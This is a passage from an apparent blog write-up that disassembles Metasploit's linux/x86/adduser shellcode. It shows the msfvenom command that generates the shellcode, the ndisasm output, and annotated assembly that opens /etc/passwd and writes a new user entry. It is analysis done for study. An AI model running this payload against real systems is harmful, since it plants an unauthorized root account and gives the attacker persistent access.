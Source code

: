 Next, if you look at the shellcode and think wtf, you're not wrong. After a quick xchg and a call, this section is a jumble as it's actually ascii we're looking at, not legitimate instructions. 
```
00000025  93                xchg eax,ebx 	; xchg the file descriptor that open() returned
00000026  E828000000        call 0x53 		; call 0x53, and skip all the junk
```
So, we xchg the file descriptor and call the next part of the legit payload, starting at offset 53. Our shellcode looks a little jumbled though, and we can't get an accurate disassembly moving forward without going at it by hand. But, ndisasm has a -k option which allows us to disassemble from an offset. We can use that here:

```
$ msfvenom -p linux/x86/adduser -f raw | ndisasm -u -k 43,40 -
/var/lib/gems/2.5.0/gems/bundler-1.17.3/lib/bundler/rubygems_integration.rb:200: warning: constant Gem::ConfigMap is deprecated
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 97 bytes

00000000  31C9              xor ecx,ecx
00000002  89CB              mov ebx,ecx
00000004  6A46              push byte +0x46
00000006  58                pop eax
00000007  CD80              int 0x80
00000009  6A05              push byte +0x5
0000000B  58                pop eax
0000000C  31C9              xor ecx,ecx
0000000E  51                push ecx
0000000F  6873737764        push dword 0x64777373
00000014  682F2F7061        push dword 0x61702f2f
00000019  682F657463        push dword 0x6374652f
0000001E  89E3              mov ebx,esp
00000020  41                inc ecx
00000021  B504              mov ch,0x4
00000023  CD80              int 0x80
00000025  93                xchg eax,ebx
00000026  E828000000        call 0x53
0000002B  skipping 0x28 bytes
00000053  59                pop ecx
00000054  8B51FC            mov edx,[ecx-0x4]
00000057  6A04              push byte +0x4
00000059  58                pop eax
0000005A  CD80              int 0x80
0000005C  6A01              push byte +0x1
0000005E  58                pop eax
0000005F  CD80              int 0x80
```
That's much cleaner! Starting from 0x00000053, the syscall for write, with the associated arguments (count, pointer to characters and the file descriptor from `open()` )
```
00000053  59                pop ecx 			; pop the location of the string into ecx (call leaves it on the stack!)
00000054  8B51FC            mov edx,[ecx-0x4]	; store the string's length into edx
00000057  6A04              push byte +0x4 		; 
00000059  58                pop eax 			; pop 0x4 (write) into eax
0000005A  CD80              int 0x80 			; call write()
```
